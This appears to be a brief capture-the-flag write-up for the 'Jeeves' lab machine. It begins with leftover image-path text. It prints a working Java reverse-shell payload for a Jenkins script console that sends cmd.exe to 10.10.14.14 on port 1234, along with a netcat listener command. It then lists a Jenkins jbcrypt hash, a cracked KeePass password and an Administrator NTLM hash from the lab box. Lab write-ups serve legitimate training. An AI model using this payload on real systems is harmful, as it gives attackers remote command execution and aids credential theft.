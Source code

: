 we found this dir http://jeeves.htb:50000/askjeeves/computer/(master)/script
and use this payload 
String host="10.10.14.14";
int port=1234;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

nc -lvnp 1234
then in this dir C:\Users\Administrator\.jenkins\users\admin>
 we found config file with this strings:
jbcrypt:$2a$10$QyIjgAFa7r3x8IMyqkeCluCB7ddvbR7wUn1GmFJNO2jQp2k8roehO

then we found CEH.kdbx KeePass file in c:\users\kohsuke\Documents crecked and get pass 'moonshine1' to unlock this file

and get Administrator hash aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
